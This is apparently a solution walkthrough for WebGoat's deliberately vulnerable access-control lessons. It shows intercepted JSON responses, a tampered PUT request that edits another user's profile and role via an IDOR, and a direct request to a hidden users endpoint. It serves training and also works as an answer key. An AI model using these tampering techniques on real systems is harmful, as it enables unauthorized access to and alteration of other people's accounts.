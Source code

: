 # Access Control Flaws

## Insecure Direct Object References #1
Just log in with the credentials tom/cat, as instructed.

## Insecure Direct Object References #2
Intercept the HTTP request with Wireshark/Fiddler, and read the response’s body:
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
The fields, that were not displayed, are role and userId.

## Insecure Direct Object References #3
The REST path to the profile is /WebGoat/IDOR/profile/2342384, as visible after intercepting the HTTP requests.

## Insecure Direct Object References #4
View Another Profile: Intercept the GET request with ZAP, and edit the /profile/userId path to /profile/2342388 in order to find another person’s profile.

Edit Another Profile: Intercept the request and tamper it in the following way:

PUT /WebGoat/IDOR/profile/2342388
Content-Type: application/json
```json
{
  "role": 1,
  "color": "red",
  "size": "large",
  "name": "Buffalo Bill",
  "userId": 2342388
}
```
## Missing Function Level Access Control #1
The values are Users and Config, as found in the section of HTML wrapped with a class hidden* (did not find out exactly which one, but I do not need that information).
![](./Img/function_level_access_control_1.png)
* Options hidden in the UI.

## Missing Function Level Access Control #2
Send a GET request to /WebGoat/users with the Content-Type set to application/json. You will receive the following response:
```json
[
    {
        "username": "johndoe",
        "admin": false,
        "userHash": "bOsZfbase64z804CSVl1vp5BR/RXybAAbEr5+X4lWQ8="
    }
]
```
